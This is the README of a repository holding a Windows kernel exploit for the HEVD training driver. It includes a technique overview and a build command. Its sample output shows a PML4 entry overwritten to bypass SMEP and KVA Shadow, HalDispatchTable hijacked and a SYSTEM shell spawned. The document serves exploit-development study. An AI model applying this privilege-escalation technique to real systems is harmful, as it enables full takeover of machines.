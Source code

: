 # HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit

## Introduction

This repository contains an exploit for [HackSys Extreme Vulnerable Driver (HEVD)](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) that bypasses [KVA Shadow](https://msrc.microsoft.com/blog/2018/03/kva-shadow-mitigating-meltdown-on-windows/), a mitigation for the Meltdown vulnerability.


## Exploit Overview

The exploit leverages [an Arbitrary Overwrite vulnerability in HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/b02b6ea/Driver/HEVD/Windows/ArbitraryWrite.c#L112), modifying the PML4 entry to bypass both KVA Shadow and SMEP.

For a detailed explanation and walkthrough of this exploit, see my blog post: [Windows 10 22H2 - HEVDで学ぶKernel Exploit - ommadawn46's blog](https://ommadawn46.hatenablog.com/entry/2024/01/30/101340) (Japanese).
 

## Tested Environment

This exploit was tested in the following environment:

- Windows 10 Version 22H2 (OS Build 19045.3930)
- KVA Shadow: Enabled
- VBS/HVCI: Disabled


### Sample Output

```
C:\Users\debuggee>HEVD_ArbitraryOverwrite.exe
HackSys Extreme Vulnerable Driver (HEVD) - Arbitrary Overwrite Exploit
Windows 10 Version 22H2 (OS Build 19045.3930) with KVA Shadow enabled
-----

[*] Executable shellcode: 000002846A110000
[+] HEVD device handle: 0000000000000098
[+] Kernel base address: FFFFF80560A00000
[+] NtQueryIntervalProfile: 00007FF8C704FA00

[*] Leaking virtual address of shellcode's PML4 entry...
[!] Writing: *(000000BF51BBFC60) = *(FFFFF80560C6B573)
[*] Leaked PTE virtual address: FFFF940000000000
[*] Extracted PML4 Self Reference Entry index: 128
[*] Extracted shellcode's PML4 index: 005
[*] Calculated virtual address for shellcode's PML4 entry: FFFF944A25128028

[*] Modifying shellcode's PML4 entry to bypass SMEP and KVA Shadow...
[!] Writing: *(000000BF51BBFC70) = *(FFFF944A25128028)
[*] Leaked shellcode's PML4 entry: 8A0000015F3D5867
[*] Modified shellcode's PML4 entry: 0A0000015F3D5863
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCB8)
[*] Overwrote PML4 entry to make shellcode executable in kernel mode

[*] Modifying HalDispatchTable+0x8 for shellcode execution...
[!] Writing: *(000000BF51BBFC70) = *(FFFFF80561600A68)
[*] Leaked HalDispatchTable+0x8: FFFFF80561392EF0
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFCE0)
[*] Overwrote HalDispatchTable+0x8 to gain control flow

[*] Executing shellcode...
[*] Executable SetR13 function allocated at: 000002846A240000
[*] Setting R13 to shellcode's address
[*] Calling NtQueryIntervalProfile to execute shellcode

[*] Restoring the kernel state...
[!] Writing: *(FFFF944A25128028) = *(000000BF51BBFCF8)
[!] Writing: *(FFFFF80561600A68) = *(000000BF51BBFD00)

[+] Spawning a shell with SYSTEM privilege
```

```
Microsoft Windows [Version 10.0.19045.3930]
(c) Microsoft Corporation. All rights reserved.

C:\Users\debuggee>whoami
nt authority\system
```


## Build

To build the exploit, execute the following command in [x64 Native Tools Command Prompt](https://learn.microsoft.com/cpp/build/how-to-enable-a-64-bit-visual-cpp-toolset-on-the-command-line?view=msvc-170):

```
cl.exe HEVD_ArbitraryOverwrite.c
```


## Verifying KVA Shadow Status

To verify if KVA Shadow is active on your system, use [SpecuCheck](https://github.com/ionescu007/SpecuCheck):

```
C:\Users\debuggee>SpecuCheck.exe
SpecuCheck v1.1.1    --   Copyright(c) 2018 Alex Ionescu
https://ionescu007.github.io/SpecuCheck/  --   @aionescu
--------------------------------------------------------

Mitigations for CVE-2017-5754 [rogue data cache load]
--------------------------------------------------------
[-] Kernel VA Shadowing Enabled:                    yes
 ├───> Unnecessary due lack of CPU vulnerability:    no
 ├───> With User Pages Marked Global:                no
 ├───> With PCID Support:                           yes
 └───> With PCID Flushing Optimization (INVPCID):   yes
...
```
